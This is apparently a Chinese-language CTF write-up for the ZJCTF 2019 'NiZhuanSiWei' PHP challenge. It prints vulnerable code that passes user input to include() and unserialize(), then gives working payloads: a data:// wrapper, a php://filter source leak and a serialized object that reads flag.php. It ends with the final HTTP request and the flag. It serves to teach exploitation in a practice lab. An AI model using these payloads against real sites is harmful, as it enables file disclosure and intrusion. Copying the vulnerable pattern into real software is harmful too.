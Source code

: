 ```yaml
---
title: ZJCTF 2019 NiZhuanSiWei
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机网页，可见如下 PHP 代码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

## 伪协议构造 $text

我们阅读一下，如果 `$text` 存在且 `file_get_contents($text, 'r')` 等于 `welcome to the zjctf` 时，才有后面发生的事情，所以我们需要让 `$text` 为一个文件，而这个文件的内容就是 `welcome to the zjctf`，所以可以运用到 PHP 伪协议之一 `data://`，我们可以这么为造出一个文件来

```
?text = data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
```

显而易见，后面那一串 Base64 解码后就是 `welcome to the zjctf`，我们发送请求，屏幕上出现了一个大大的 **welcome to the zjctf**，这一步成功

## 伪协议构造 $file

从代码中我们可以看见程序已经把 `flag` 这个字符直接屏蔽掉了，但我们的目标暂时不是 `flag`，而是下面说的一个 `useless.php`，这就有点此地无银三百两的感觉了，他要 `include($file)`，还指示我要跟 `useless.php` 搭上关系，那么我们就应当让 `$file = useless.php`

但真的是这样吗？

下面的代码没有对 `include()` 进来的东西产生任何处理，说明就算 `include()` 进来我也不知道发生了什么，那么我希望我能使用 PHP 伪协议把这个文件直接读出来，所以可以这么写

```
?file = php://filter/read=convert.base64-encode/resource=useless.php
```

发送请求后，我们可以看到下面多了一串 Base64 编码

```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo
```

我们对他解码，得到 `useless.php`

```php
<?php
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

## 构造 Flag 对象

发现这根本不 useless，反而 useful，因为这是一个对象，这样子就跟下面的代码联系上了，在 `include()` 下面我们还有一个 `$password = unserialize($password);` 的语句，其中 `unserialize()` 即反序列化，与其对应的还有 `serialize()` 即序列化，分别是将**字符串转为对象**和将**对象转为字符串**

那么如果我们构造一个 Flag 对象，让他的（Flag 对象的，不是大题目里的）内部属性 `$file` = `flag.php`（至于这个 `flag.php` 怎么来的，可以看 `useless.php` 的第一行注释），那么就可以实现最终 `echo $password` 的时候打印的实际上是 `flag.php` 中的内容，所以我们可以写这么一段代码，放到 PHP Playground 里去跑一跑

```php
<?php
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}

$flag = new Flag(); // 创建一个 Flag 对象
$flag -> file = "flag.php"; // 将 Flag 对象的 file 属性设置为 flag.php
echo serialize($flag); // 将 Flag 对象序列化后打印输出
?> 
```

由此一来我们得到了一串被序列化后的 Flag 对象

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

那么很显然，我们的 `$password` 也理应等于这个被序列化后的 Flag 对象，最终我们的 Http 请求代码是（别忘了现在需要把 `$file` 改为 `useless.php`，因为你不需要再看他的源码了）

```http
GET /?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:%22Flag%22:1:%7Bs:4:%22file%22;s:8:%22flag.php%22;%7D HTTP/1.1
Host: 93865280-0782-49eb-80c2-893e57e7e0e1.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: 93865280-0782-49eb-80c2-893e57e7e0e1.node4.buuoj.cn:81
Connection: keep-alive
```

最终在源代码中可以找到 Flag，是 `flag{6063798f-c16b-490b-afcd-19edd1ccc5df}`